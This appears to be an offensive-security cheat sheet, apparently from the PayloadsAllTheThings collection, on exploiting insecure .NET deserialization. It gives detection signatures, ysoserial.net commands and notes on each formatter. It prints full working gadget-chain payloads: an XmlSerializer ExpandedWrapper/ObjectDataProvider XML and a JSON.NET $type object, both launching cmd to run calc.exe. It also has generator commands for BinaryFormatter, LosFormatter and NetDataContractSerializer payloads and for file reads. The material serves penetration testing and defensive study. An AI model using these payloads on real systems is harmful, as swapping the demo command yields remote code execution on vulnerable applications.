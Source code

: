 # .NET Serialization

## Summary

* [Detection](#detection)
* [Tools](#tools)
* [Formatters](#formatters)
    * [XmlSerializer](#xmlserializer)
    * [DataContractSerializer](#datacontractserializer)
    * [NetDataContractSerializer](#netdatacontractserializer)
    * [LosFormatter](#losformatter)
    * [JSON.NET](#jsonnet)
    * [BinaryFormatter](#binaryformatter)
* [POP Gadgets](#pop-gadgets)
* [References](#references)


## Detection

* `AAEAAD` (Hex) = .NET deserialization BinaryFormatter
* `FF01` (Hex) / `/w` (Base64) = .NET ViewState

Example: `AAEAAAD/////AQAAAAAAAAAMAgAAAF9TeXN0ZW0u[...]0KPC9PYmpzPgs=`


## Tools

* [pwntester/ysoserial.net - Deserialization payload generator for a variety of .NET formatters](https://github.com/pwntester/ysoserial.net)
```ps1
$ cat my_long_cmd.txt | ysoserial.exe -o raw -g WindowsIdentity -f Json.Net -s
$ ./ysoserial.exe -p DotNetNuke -m read_file -f win.ini
$ ./ysoserial.exe -f Json.Net -g ObjectDataProvider -o raw -c "calc" -t
$ ./ysoserial.exe -f BinaryFormatter -g PSObject -o base64 -c "calc" -t
```

## Formatters

![NETNativeFormatters.png](https://github.com/techanv-bot/PayloadsAllTheThings/raw/master/Insecure%20Deserialization/Images/NETNativeFormatters.png?raw=true)    
.NET Native Formatters from [pwntester/attacking-net-serialization](https://speakerdeck.com/pwntester/attacking-net-serialization?slide=15)

### XmlSerializer

* In C# source code, look for `XmlSerializer(typeof(<TYPE>));`.
* The attacker must control the **type** of the XmlSerializer.
* Payload output: **XML**

```xml
.\ysoserial.exe -g ObjectDataProvider -f XmlSerializer -c "calc.exe"
<?xml version="1.0"?>
<root type="System.Data.Services.Internal.ExpandedWrapper`2[[System.Windows.Markup.XamlReader, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35],[System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35]], System.Data.Services, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089">
    <ExpandedWrapperOfXamlReaderObjectDataProvider xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" >
        <ExpandedElement/>
        <ProjectedProperty0>
            <MethodName>Parse</MethodName>
            <MethodParameters>
                <anyType xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xsi:type="xsd:string">
                    <![CDATA[<ResourceDictionary xmlns="http://schemas.microsoft.com/winfx/2006/xaml/presentation" xmlns:d="http://schemas.microsoft.com/winfx/2006/xaml" xmlns:b="clr-namespace:System;assembly=mscorlib" xmlns:c="clr-namespace:System.Diagnostics;assembly=system"><ObjectDataProvider d:Key="" ObjectType="{d:Type c:Process}" MethodName="Start"><ObjectDataProvider.MethodParameters><b:String>cmd</b:String><b:String>/c calc.exe</b:String></ObjectDataProvider.MethodParameters></ObjectDataProvider></ResourceDictionary>]]>
                </anyType>
            </MethodParameters>
            <ObjectInstance xsi:type="XamlReader"></ObjectInstance>
        </ProjectedProperty0>
    </ExpandedWrapperOfXamlReaderObjectDataProvider>
</root>
```


### DataContractSerializer

> The DataContractSerializer deserializes in a loosely coupled way. It never reads common language runtime (CLR) type and assembly names from the incoming data. The security model for the XmlSerializer is similar to that of the DataContractSerializer, and differs mostly in details. For example, the XmlIncludeAttribute attribute is used for type inclusion instead of the KnownTypeAttribute attribute.

* In C# source code, look for `DataContractSerializer(typeof(<TYPE>))`.
* Payload output: **XML**
* Data **Type** must be user-controlled to be exploitable


### NetDataContractSerializer 

> It extends the `System.Runtime.Serialization.XmlObjectSerializer` class and is capable of serializing any type annotated with serializable attribute as `BinaryFormatter`.

* In C# source code, look for `NetDataContractSerializer().ReadObject()`.
* Payload output: **XML**

```ps1
.\ysoserial.exe -f NetDataContractSerializer -g TypeConfuseDelegate -c "calc.exe" -o base64 -t
```

### LosFormatter

* Use `BinaryFormatter` internally.

```ps1
.\ysoserial.exe -f LosFormatter -g TypeConfuseDelegate -c "calc.exe" -o base64 -t
```


### JSON.NET

* In C# source code, look for `JsonConvert.DeserializeObject<Expected>(json, new JsonSerializerSettings`.
* Payload output: **JSON**

```ps1
.\ysoserial.exe -f Json.Net -g ObjectDataProvider -o raw -c "calc.exe" -t
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35', 
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['cmd', '/c calc.exe']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

### BinaryFormatter

> The BinaryFormatter type is dangerous and is not recommended for data processing. Applications should stop using BinaryFormatter as soon as possible, even if they believe the data they're processing to be trustworthy. BinaryFormatter is insecure and can’t be made secure.

* In C# source code, look for `System.Runtime.Serialization.Binary.BinaryFormatter`.
* Exploitation requires `[Serializable]` or `ISerializable` interface.
* Payload output: **Binary**


```ps1
./ysoserial.exe -f BinaryFormatter -g PSObject -o base64 -c "calc" -t
```


## POP Gadgets

These gadgets must have the following properties:
* Serializable
* Public/settable variables
* Magic "functions": Get/Set, OnSerialisation, Constructors/Destructors

You must carefully select your **gadgets** for a targeted **formatter**.


List of popular gadgets used in common payloads.
* **ObjectDataProvider** from `C:\Windows\Microsoft.NET\Framework\v4.0.30319\WPF\PresentationFramework.dll`
    * Use `MethodParameters` to set arbitrary parameters
    * Use `MethodName` to call an arbitrary function 
* **ExpandedWrapper**
    * Specify the `object types` of the objects that are encapsulated
    ```cs
    ExpandedWrapper<Process, ObjectDataProvider> myExpWrap = new ExpandedWrapper<Process, ObjectDataProvider>();
    ```
* **System.Configuration.Install.AssemblyInstaller**
    * Execute payload with Assembly.Load   
    ```cs
    // System.Configuration.Install.AssemblyInstaller
    public void set_Path(string value){
        if (value == null){
            this.assembly = null;
        }
        this.assembly = Assembly.LoadFrom(value);
    }
    ```


## References

* [Attacking .NET Serialization - Alvaro - October 20, 2017](https://speakerdeck.com/pwntester/attacking-net-serialization?slide=11)
* [Attacking .NET Deserialization - Alvaro Muñoz - 28 avr. 2018](https://youtu.be/eDfGpu3iE4Q)
* [Friday the 13th: JSON Attacks - Alvaro Muñoz (@pwntester) Oleksandr Mirosh - Slides](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-Json-Attacks.pdf)
* [Friday the 13th: JSON Attacks - Alvaro Muñoz (@pwntester) Oleksandr Mirosh - White Paper](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf)
* [Friday the 13th: JSON Attacks - Alvaro Muñoz (@pwntester) Oleksandr Mirosh - DEF CON 25 Conference](https://www.youtube.com/watch?v=ZBfBYoK_Wr0)
* [ARE YOU MY TYPE? Breaking .NET sandboxes through Serialization - James Forshaw - Slides](https://media.blackhat.com/bh-us-12/Briefings/Forshaw/BH_US_12_Forshaw_Are_You_My_Type_Slides.pdf)
* [ARE YOU MY TYPE? Breaking .NET sandboxes through Serialization - James Forshaw - White Paper](https://media.blackhat.com/bh-us-12/Briefings/Forshaw/BH_US_12_Forshaw_Are_You_My_Type_WP.pdf)
* [Now You Serial, Now You Don't - Systematically Hunting for Deserialization Exploits - ALYSSA RAHMANDEC](https://www.mandiant.com/resources/blog/hunting-deserialization-exploits)
* [Exploiting Deserialisation in ASP.NET via ViewState - Soroush Dalili (@irsdl) - 04/2019](https://soroush.secproject.com/blog/2019/04/exploiting-deserialisation-in-asp-net-via-viewstate/)
* [Bypassing .NET Serialization Binders - Markus Wulftange - June 28, 2022](https://codewhitesec.blogspot.com/2022/06/bypassing-dotnet-serialization-binders.html)
* [Basic .Net deserialization (ObjectDataProvider gadget, ExpandedWrapper, and Json.Net) - hacktricks](https://book.hacktricks.xyz/pentesting-web/deserialization/basic-.net-deserialization-objectdataprovider-gadgets-expandedwrapper-and-json.net)
* [Sitecore Experience Platform Pre-Auth RCE - CVE-2021-42237 - Nov 2, 2021 - Shubham Shah](https://blog.assetnote.io/2021/11/02/sitecore-rce/)
* [Finding a New DataContractSerializer RCE Gadget Chain - November 7, 2019 - dugisec](https://muffsec.com/blog/finding-a-new-datacontractserializer-rce-gadget-chain/)